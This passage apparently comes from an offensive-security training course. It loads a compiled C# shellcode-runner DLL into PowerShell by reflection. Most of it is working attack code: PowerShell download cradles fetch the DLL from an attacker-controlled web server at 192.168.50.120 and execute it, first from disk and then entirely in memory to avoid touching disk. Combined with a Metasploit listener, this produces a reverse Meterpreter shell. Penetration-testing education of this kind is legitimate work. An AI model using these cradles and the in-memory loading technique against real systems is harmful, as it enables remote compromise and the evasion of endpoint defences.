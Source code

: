 > Listing 4 - DllImports and definition of runner method

Next, we'll copy the exact content of the _Main_ method of the _ConsoleApp1_ project into the _runner_ method. We'll also need to replace the namespace imports to match those of the _ConsoleApp1_ project.

With the C# code complete, we can compile it and copy the resulting DLL (**ClassLibrary1.dll**) into the web root of our Kali Linux machine.

Once the file is in place, we'll ensure that Apache is started and configure a multi/handler Metasploit listener.

In a new 64-bit session of PowerShell ISE on the Windows 11 development machine, we can use a download cradle to fetch the newly-compiled DLL. As shown in Listing 5, we'll use the _LoadFile_ method from the _System.Reflection.Assembly_ namespace to dynamically load our pre-compiled C# assembly into the process. This works in both PowerShell and native C#.

```
(New-Object System.Net.WebClient).DownloadFile('http://192.168.50.120/ClassLibrary1.dll', 'C:\Users\Offsec\ClassLibrary1.dll')

$assem = [System.Reflection.Assembly]::LoadFile("C:\Users\Offsec\ClassLibrary1.dll")
```

> Listing 5 - Downloading the assembly and loading it into memory

After the assembly is loaded, we can interact with it using reflection via the _GetType_ and _GetMethod_ methods, and finally call it using the _Invoke_ method:

```
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

> Listing 6 - Executing the loaded assembly using reflection

Executing this PowerShell results in a reverse Meterpreter shell, but it _will_ download the assembly to disk before loading it. We can subvert this by instead using the [Load](https://docs.microsoft.com/en-us/dotnet/api/system.reflection.assembly.load?view=netframework-4.8) method, which accepts a _Byte_ array in memory instead of a disk file. In this case, we'll modify our PowerShell code to use the [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=netframework-4.8) method of the _Net.WebClient_ class to download the DLL as a byte array.

```
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.50.120/ClassLibrary1.dll')

$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

> Listing 7 - Using DownloadData and Load to execute the assembly from memory

With this change, we have successfully loaded precompiled C# assembly directly into memory without touching disk and executed our shellcode runner. Excellent!

### Resources
